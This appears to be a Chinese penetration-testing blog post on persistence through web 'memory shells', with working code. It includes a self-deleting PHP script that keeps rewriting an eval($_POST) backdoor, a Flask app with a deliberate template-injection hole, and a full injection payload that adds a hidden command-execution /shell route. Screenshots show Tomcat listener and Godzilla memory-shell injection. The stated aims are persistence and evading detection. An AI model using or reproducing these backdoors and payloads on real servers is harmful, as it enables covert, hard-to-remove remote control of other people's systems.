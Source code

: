 ```yaml
---
title: day17-权限维持篇-web-内存马
date: 2024-03-21 23:13 +0800
categories: [内网,web] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00前言

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。 

内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。==无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。==

再次之后可能会详细的介绍有关于webshell内存马的文章！！！

## 0x01 php内存马

对于php来说，实际上不算是比较存粹的内存马。在php中最主要的是写入一个php文件使其能够达到删除不掉的地步，也就是不断的生成文件，详情参考下面的代码：

```php
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.yuan.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

效果如下：

![截图](0187b66d9b9b1c7e753a423b18b4b7a9.png)

此时，就会发现我们一直无法删除这个文件了！！！ 除非重启。

> php这里是有文件显示的！

## 0x02 python

python这里则是基于`flask`的模板注入;

首先，启动`flask`的模板：

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('param'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run(port=8000)   
```

```
python flaskSstiServer.py
```

此时，注入内存马的参数：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

```cmd
http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

![截图](b49db16c1ce2bfec32874e1c785a6b83.png)

此时，访问shell地址即可！

![截图](4fef440a66495272472f7d37374cb35e.png)

从这里我们也可以看见，我们当前目录下面是没有任何文件的，但是我们依然可以访问并执行命令！

## 0x03 java

利用文件上传注入内存马。环境是tomact9和jdk11 ！

#### 搭建环境

配置tomcat请参考：https://blog.csdn.net/qq_29493173/article/details/110304388

在IntelliJ IDEA中配置Tomcat：https://blog.csdn.net/Wxy971122/article/details/123508532

> 如果TOMCAT启动提示NB: JAVA_HOME should point to a JDK not a JRE解决
>
> https://blog.csdn.net/caozhongyan/article/details/6602759
>
> 如果ide没有tomcat：
>
> https://blog.csdn.net/u010459738/article/details/109612997

#### 内存马种类介绍

1、按攻击思路，大致分为：

-Java Instrumentation类（Agent型）

-Servlet-api类（Servlet型、Filter型、Listener型）

-Spring类（Controller型、Interceptor型）

2、按注入的对象分为：tomcat、weblogic、shiro等类型。

#### 演示

首先，我们来看看`listener`类型的内存马：

![截图](ca93ec0be4e4eee3b70d54d4c33cbabe.png)

然后我们可以在tomcat的根目录下看到该文件已经被上传成功！！

![截图](f6687749946d3f7e67cbad362c31f524.png)

由于此时，该文件还没被执行，因此还没有注入内存马，此时我们访问一些不存在的页面（带参数）时候是不会成功的！

![截图](47f313dcabce667f57aeb7f1e1e25916.png)

那么接下来，让我们访问一下该内存马：

![截图](9abc2fb97c9f664dee6f6132230f76db.png)

会弹出计算器，然后此时由于已经注入到内存中，只要我们输入的参数包含了`cmd`的话就会被监控到并执行相应的效果：（~~即使该页面不存在）~~

![截图](7820326805dcb4da1edcebc0dcc0f114.png)

#### 哥斯拉注入演示

首先，生成一个木马并上传：

![截图](516a79df551bed204f4912ad0f1da154.png)

然后建立连接并访问：（注意这里的访问路径要写入对应的上传地址）

![截图](f2e0b34128c6196ac13d671a0178fbfb.png)

此时，我们连接`1.jsp`是可以的：

![截图](c44189042cca1e17d70fb68cf76ef335.png)

然后，我们利用此进行注入：

![截图](f563436b255aec034f94aaf3cb49581f.png)

这里，当我们不点击run时候，我们无论如何是也连接不进去的（而且`.ico`也是个图片）

![截图](7be38268e2fb87264718205aea5ec067.png)

然后我们点击run：

![截图](f0ef6883dded01c141c0b1243164d6fa.png)

就发现成功了！！

此时，我们即使把之前的`1.jsp`删了，我们的内存马也可以连接：

![截图](f23d1a178ab84e1fad99381527943ef1.png)

![截图](6f0424bc0911e24d55a0563f5a888717.png)

而且在根目录下面也是没有文件的：

![截图](903ad7079e1fb3d98e27420f4bdc408a.png)
